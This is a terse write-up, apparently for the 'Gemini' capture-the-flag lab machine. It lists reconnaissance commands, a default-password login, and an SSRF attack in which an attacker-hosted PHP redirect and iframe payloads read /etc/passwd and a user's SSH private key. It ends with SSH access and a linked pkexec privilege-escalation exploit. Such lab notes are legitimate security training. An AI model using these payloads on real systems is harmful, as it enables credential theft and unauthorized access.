


# Gemini 192.168.56.110
## Andrea Zonnekus 18758119

sudo netdiscover -i eth0 

 

sudo nmap -p- -sV -Pn -O 192.168.56.110 -oN host 

 

gobuster dir -u 192.168.56.110 -w /usr/share/dirb/wordlists/big.txt -ext php,py,txt,html -o http\_enum 

 

searchsploit gemini 

 

view-source:http://192.168.56.110/test2/ 

 

See token, input name, input password, also check login.php 

Try admin 1234 

Bingo 

searchsploit apache 2.4 

 

searchsploit openssh 7.4 

 

dirb http://192.168.56.110/test2 -X .php | grep CODE:200 

 

<http://192.168.56.110/test2/profile.php> 

Check 

 

python3 -m http.server 80 

`<iframe src=192.168.56.102>` 

 

 

<https://programmerall.com/article/6961560012/> 

 

<?php header('location:file://'.$\_REQUEST['url']); ?> 

`<iframe width="800" height="1500" src=http://192.168.56.102/ssrf.php?x=%2fetc%2fpasswd> </iframe>`

<https://gist.github.com/p0c/9047726> 

 

php -S 0.0.0.0:80 

`<iframe height="2000" width="800" src=http://192.168.56.102/ssrf.php?url=%2fetc%2fpasswd></iframe>`

Save as file 

cat pass | grep /bin/bash 

 

`<iframe height="2000" width="800" src="http://192.168.56.102/ssrf.php?url=/home/gemini1/%2essh/id\_rsa"></iframe>`

 

chmod 600 gem\_ssh 

ssh gemini1@192.168.56.110 -i gem\_ssh 

Run linpeas 

Sudo 1.8.9 --> https://github.com/berdav/CVE-2021-4034 

 

